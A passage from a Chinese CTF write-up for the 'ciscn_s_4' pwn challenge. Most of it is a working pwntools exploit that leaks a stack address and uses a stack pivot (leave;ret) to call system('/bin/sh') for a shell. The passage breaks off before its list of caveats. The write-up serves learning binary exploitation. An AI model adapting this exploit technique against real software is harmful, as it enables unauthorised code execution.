 ![image-20240117145052413](../assets/img/old_imgs/image-20240117145052413.png)

计算得到偏移量为`0x38`

```python
from pwn import *
context.log_level = 'debug'
elf = ELF('./ciscn_s_4')
io = process('./ciscn_s_4')
#io = gdb.debug('./ciscn_s_4')
padding = b'A'*0x27+b'B'
payload1 = padding
leave_ret = 0x08048562
io.sendafter(b'Welcome, my friend. What\'s your name?\n',payload1)
io.recvuntil(b'B')
s_addr = u32(io.recv(4))-0x38
print('s_addr->',hex(s_addr))

payload2 = p32(0)+p32(elf.plt['system'])+p32(0)+p32(s_addr+0x10)+b'/bin/sh\x00'
payload2 = payload2.ljust(0x28,b'\x00')
payload2 += p32(s_addr)+p32(leave_ret)
io.send(payload2)

io.interactive()
```

详细关于栈迁移在之前随笔中有详解,不再赘述

有几个注意点:
